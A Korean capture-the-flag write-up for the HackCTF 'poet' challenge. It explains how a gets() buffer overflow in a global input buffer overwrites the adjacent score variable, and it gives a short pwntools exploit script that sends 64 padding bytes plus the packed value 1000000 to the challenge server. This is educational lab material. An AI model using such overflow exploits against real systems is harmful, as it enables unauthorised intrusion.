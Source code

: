 ```yaml
---
layout: post
title:  "HacCTF poet write-up"
date:   2020-01-10 19:45:55
image:  hackctf_poet.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] poet

Date: Jan 10, 2020
Tags: report

### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled.png)

NX 비트가 걸려있다.  따라서 메모리 영역의 쓰기 권한이 없다

 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 나온다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%202.png)

멀 입력하라고 나온다. 문제로 봤을때 1000000점을 획득해야 되는 것 같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%203.png)

                                   <main>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%204.png)

                               <get_poem()>

메인 함수를 보면 while문 안에 get_poem(), get_author(), rate_poem() 함수가 있다.

get_poem 함수에서 처음 입력을 받게 되고, poem 이라는 변수에 저장을 하게 된다. poem 변수는 전역변수인 듯 하다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%205.png)

                                <rate_poem()>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%206.png)

                                <get_author>

get_author 함수에서 두번째로 입력을 받는다. unk_6024A0 이라는 변수에 입력을 받는데, 이역시 전역변수이다

rate_poem() 함수에서 점수를 계산하는 로직이 존재하는데, 일정 조건에 맞아야지 dwor_6024E0 이라는 변수에 100씩 저장하게 된다. 이 변수 역시 전역 변수이고 메인문에서 1,000,000 와 비교하는 비교대상이다.

따라서 dwor_6024E0  변수 값을 알맞게 조정해주면 될 것이다. 그래야 while을 탈출하여 reward 함수가 실행되게 될것이고 그곳에서 flag를 확인 가능하다

### 2. 접근방법

느낌상 해당 조건문에 맞게 하나씩 값을 노가다로 넣는 것을 아닐 것이고, gets 함수의 bof를 이용하여 조건에 맞게 수정해주면된다

- 필요 값들
    1. **dwor_6024E0**  : 비교 대상

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%207.png)

    2. **unk_6024A0 :** 입력한 값이 들어가는 곳

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20poet/Untitled%208.png)

따라서 unk_6024A0에서 bof를 이용하여  dwor_6024E0 값을 변경하면 된다

두 주소의 차이는 64이기때문에, "A"*64+1,000,000 이렇게 입력해주면 되는 간단한 문제이다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3012)
    #p = process("./poet")
    #gdb.attach(p)
    
    p.recvuntil("> ")
    
    payload = "A"*10
    
    p.sendline(payload)
    
    p.recvuntil("> ")
    
    payload2 = "B"*64
    payload2 += p64(1000000)
    
    p.sendline(payload2)
    
    p.interactive()

### 4. 몰랐던 개념

처음에 strcpy 함수가 보여서 이를 이용하려고 했으나, 복사하려는 값의 배열크기가 충분하지 않아서 실패하였다. 문제와 변수 크기 이런것을 주의깊게 보면서 풀어야 할 것 같다